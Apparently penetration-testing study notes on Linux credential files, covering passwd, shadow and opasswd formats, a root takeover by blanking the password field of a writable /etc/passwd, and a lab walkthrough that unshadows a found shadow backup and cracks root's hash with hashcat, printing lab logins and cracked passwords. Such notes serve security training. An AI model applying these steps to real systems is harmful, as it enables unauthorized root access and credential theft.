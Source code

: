 # Passwd, Shadow & Opasswd

Most common authentication mechanism : Pluggable Authentication Modules (PAM)
Modules located on :  /usr/lib/x86_x64-linux-gnu/security/pam_unix.so or pam_unix2.so

/etc/passwd and /etc/shadow are managed and updated by pam_unix.so (API calls, ...)

## Passwd File

cry0l1t3    :	x	        : 1000	:	1000	:	cry0l1t3,,,	        :	/home/cry0l1t3	:	/bin/bash
Login name  : Password info : UID   :	GUID    :	Full name/comments  :	Home directory  :	Shell

on very old systems, possible that the hash of the encrypted password in "Password Info". 
Modern systems have the hash values stored in the /etc/shadow file.

### Passwd writeable

it can also be that the /etc/passwd file is writeable by mistake

Clear "x" in password field, so root user can be used without password :

**Before**
root:x:0:0:root:/root:/bin/bash

**After**
root::0:0:root:/root:/bin/bash

head -n 1 /etc/passwd
root::0:0:root:/root:/bin/bash

su

## Shadow File

The /etc/shadow file is also only readable by users who have administrator rights.

cry0l1t3	:	$6$wBRzy$...SNIP...x9cDWUxW1	:	18937	:	0	:	99999	:	7	:	:	:
Username		Encrypted password		Last PW change		Min. PW age		Max. PW age		Warning period	Inactivity period	Expiration date	Unused



If password == ! or *, the user cannot log in with a Unix password. (other authentication methods still possible). 
If password == empty, no password is required for the login.

**Encrypted Password format :**
$<type>$<salt>$<hashed>

Algorithm Types
$1$ – MD5
$2a$ – Blowfish
$2y$ – Eksblowfish
$5$ – SHA-256
$6$ – SHA-512
By default, the SHA-512 ($6$) encryption method is used on the latest Linux distributions.

## Opasswd

/etc/security/opasswd stores all passwords of a user

cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1

(old passwords separated by comma ,)

## Cracking Linux Credentials

### Unshadow

sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

### Hashcat

**Cracking Unshadowed Hashes**

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes /usr/share/wordlists/rockyou.txt -o /tmp/unshadowed.cracked

**Cracking MD5 Hashes**

cat md5-hashes.list

qNDkF0zJ3v8ylCOrKB0kt0
E9uMSmiQeRh4pAAgzuvkq1
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt

# LAB

ssh will@$TARGET
TUqr7QfLTLhruhVbCP

ls -l /etc/passwd
-rw-r--r-- 1 root root 2619 Feb  9  2022 /etc/passwd

chmod 644 /etc/shadow
chmod: changing permissions of '/etc/shadow': Operation not permitted

sudo cat /etc/shadow
[sudo] password for will: 
will is not in the sudoers file.  This incident will be reported.

cat .bash_history
ls -latr .backups/
cat .backups/shadow.bak

root:$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.:19032:0:99999:7:::

vi passwd.bak
vi shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes


hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes mut_password.list -o /tmp/unshadowed.cracked

cat unshadowed.cracked 
$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.:J0rd@n5

